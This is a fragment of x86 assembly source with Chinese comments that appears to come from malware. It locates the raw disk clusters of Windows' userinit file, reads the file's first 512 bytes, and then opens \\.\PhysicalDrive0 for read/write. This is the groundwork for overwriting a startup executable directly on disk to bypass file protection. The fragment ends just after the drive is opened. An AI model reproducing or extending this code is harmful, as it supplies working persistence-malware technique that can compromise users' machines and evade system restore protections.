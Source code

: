 
;这个结构是8字节对齐的,结构长度32字节
;typedef struct RETRIEVAL_POINTERS_BUFFER
;{
;    DWORD ExtentCount;
;    LARGE_INTEGER StartingVcn;
;    struct
;    {
;        LARGE_INTEGER NextVcn;
;        LARGE_INTEGER Lcn;
;    } Extents[1];
;} RETRIEVAL_POINTERS_BUFFER, *PRETRIEVAL_POINTERS_BUFFER;

;typedef union union
;{
;   struct
;   {
;       DWORD LowPart;
;       LONG HighPart;
;   };
;   LONGLONG QuadPart;
;} LARGE_INTEGER, *PLARGE_INTEGER;

lea  edi, OutBuffer    ;OutBuffer是上面结构体指针
mov  ebx, [edi]        ;ExtentCount = Extents数组元素个数
lea  edi, [edi+10h]    ;指向Extents数组首地址,根据字节对齐
mov  eax, DistanceToMoveHigh
or  ebx, ebx          ;判断ExtentCount是否为0
jz  ExtentCountIsZero

mov  eax, [edi+8]    ;指向Extents[0].Lcn.LowPart
mov  edx, [edi+0Ch]  ;指向Extents[0].Lcn.HighPart
cmp  eax, 0FFFFFFFFh
jz  FEIHUA
cmp  edx, 0FFFFFFFFh
jz  FEIHUA

mov  dwLowPartofLcn, eax  ;保存lcn低32位
mov  dwHighPartofLcn, edx ;保存lcn高32位

push  0    ; lpOverlapped
lea  eax, DistanceToMoveHigh
push  eax    ; lpNumberOfBytesRead
push  200h    ; nNumberOfBytesToRead
lea  eax, Buffer
push  eax    ; lpBuffer
push  hObject          ; hFile
call  ReadFile        ;读取userinit文件开头512字节

push  hObject          ; hObject
call  CloseHandle
mov  hObject, 0      ;关闭文件

push  0    ; hTemplateFile
push  0    ; dwFlagsAndAttributes
push  3    ; dwCreationDisposition
push  0    ; lpSecurityAttributes
push  3    ; dwShareMode
push  0C0000000h  ; dwDesiredAccess
push  offset a_Physicaldrive ; "\\.\PhysicalDrive0"
call  CreateFileA        ;打开物理硬盘读写
cmp  eax, 0FFFFFFFFh
jz  OPENPHYSICSFAILED
mov  hFile, eax
